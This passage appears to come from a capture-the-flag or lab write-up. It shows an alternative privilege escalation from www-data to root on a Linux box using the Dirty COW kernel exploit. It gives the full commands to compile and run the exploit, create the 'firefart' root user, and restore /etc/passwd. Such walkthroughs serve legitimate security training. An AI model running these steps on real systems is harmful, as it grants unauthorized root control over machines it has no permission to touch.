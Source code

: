*ALTERNATIVE PRIV ESC*

Once we are in the system as www-data, we can check the kernel version using the following command 

```uname -a```

After a short search, we find that there are some kernel exploits which could work here. One of them is Dirty COW, we will use this one https://github.com/firefart/dirtycow

We compile it using the next command

```cd /tmp && gcc -pthread dirty.c -o dirty -lcrypt && ./dirty rootpass```

Now log in as root (now named firefart)

```su firefart```

```mv /tmp/passwd.bak /etc/passwd```

```id```
